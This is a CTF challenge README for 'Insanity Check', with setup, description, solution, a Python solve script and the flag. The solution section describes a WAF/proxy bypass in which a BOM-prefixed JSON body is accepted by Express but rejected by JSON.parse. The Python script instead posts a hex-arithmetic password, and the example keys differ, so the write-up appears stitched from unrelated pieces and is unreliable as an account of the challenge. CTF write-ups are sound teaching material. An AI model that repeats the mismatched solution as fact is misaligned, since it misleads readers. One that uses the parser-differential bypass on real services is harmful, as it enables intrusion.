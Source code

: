 # Insanity Check

## Setup
```
cd build
docker compose up
```
Ora il sito è disponibile al link: [http://localhost:4567](http://localhost:4567).

## Descrizione
@benjamin ha scoperto i firewall???

Corri a fare first blood: [http://www.beginner.havce.it:8080](http://www.beginner.havce.it:8080).


*Author: [@benjamin](https://github.com/b3nj4m1no)*


## Soluzione
You should make a JSON that satisfies the following conditions:

The `backend` server, i.e. a JSON parser of Express, recognizes it as a JSON containing a key `dammilaflag`.
The `proxy` server fails to parse it as a JSON value at `JSON.parse(req.body)`.
In conclusion, the following JSON satisfies them where `\ufeff` is a BOM:
```
\ufeff{"dammilaflag": true}
```

Web frameworks often allow JSON values to be added a BOM at the beginning. For example, Fastify and Express check a BOM at:
Fastify: https://github.com/fastify/secure-json-parse/blob/v2.7.0/index.js#L20-L23
Express: https://github.com/ashtuchkin/iconv-lite/blob/v0.6.3/lib/bom-handling.js#L39-L40

On the other hand, JSON.parse does not allow a BOM:
```
> JSON.parse('{"givemeflag": true}')
{ givemeflag: true }
> JSON.parse('\ufeff{"givemeflag": true}')
Uncaught SyntaxError: Unexpected token '', "{"givemef"... is not valid JSON
```

```py
# Author: @benjamin

import requests

url = "http://www.beginner.havce.it:8080"

# 192145884 --> numero più grande --> hex(192145884) = 0xb73e9dc
# 192014812 --> numero
# 131072    --> differenza --> hex(131072) = 0x20000

payload = {
    "password": "0xb73e9dc-0x20000"
}

r = requests.post(url, data=payload)

print(r.text)
```

## Flag
`CodeVinciCTF{n3vEr_tRu5t_4_w4f_:drop_of_blood:}`
